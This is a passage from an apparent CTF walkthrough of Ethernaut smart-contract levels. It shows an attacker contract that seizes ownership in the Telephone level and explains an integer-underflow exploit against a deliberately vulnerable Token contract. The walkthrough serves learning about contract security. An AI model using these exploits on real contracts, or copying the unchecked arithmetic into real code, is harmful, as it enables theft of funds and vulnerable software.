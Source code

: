 ```javascript
    Telephone public telephone;
    constructor(Telephone _telephone){
        telephone = _telephone;
        telephone.changeOwner(0x699BceEbD59a5b52bB586C737cD7ba636f3Fe602);
    }
}
```

To run script : 

```bash
$ source .env
$ forge script script/TelephoneSolve.s.sol:TelephoneSolve --rpc-url $RPC_URL --broadcast
```

# 5 Token

`Token.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

- Goal

1. We have initial token balance of 20, we need to get ourself more tokens.

Solution : 

1. This contract uses solidity pragma `0.6.0`, in which no arithmetic overflow/underflow checks are not performed by default.
2. In `transfer()` function the require check can be bypassed when we pass value as more than 20.
3. 20 - 21 = -1 which results in `2**256 - 1`. Which is `>= 0` and the same will happens in the update of balance at sender.
4. `balances[msg.sender] -= _value;` will become balance[msg.sender] = 20 - 21 = 2**256 - 1.
5. A huge amount of tokens to our account.

